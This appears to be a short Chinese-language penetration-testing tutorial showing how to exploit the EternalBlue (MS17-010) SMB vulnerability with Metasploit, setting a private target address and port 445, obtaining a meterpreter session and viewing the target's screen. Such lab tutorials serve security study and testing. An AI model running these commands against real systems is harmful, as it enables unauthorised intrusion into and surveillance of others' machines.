








## 永恒之蓝漏洞渗透测试

1. 开启渗透测试工具msfconsole

   打开终端输入msfconsole回车



2. 找到永恒之蓝漏洞

   搜索永恒之蓝漏洞代号ms17-010

   ```
   search ms17-010
   ```



这里2号就是我们要找的漏洞

选择这个漏洞

```
use 2
```



3. 设置添加字段

   可以使用show options查看当前漏洞的可选选项



这里有两个必须添加的字段：RHOSTS和RPORT

```
set rhosts 192.168.43.252
```

```
set rport 445
```



4. 开始渗透

   输入run 或 explit开始渗透

   

   当看到meterpreter即为成功，现在就可以像操作目标主机的命令行一样操作主机了

   例如，屏幕分享

   ```
   screenshare
   ```

   
   
   这时会打开浏览器将目的主机的页面实时显示在浏览器页面


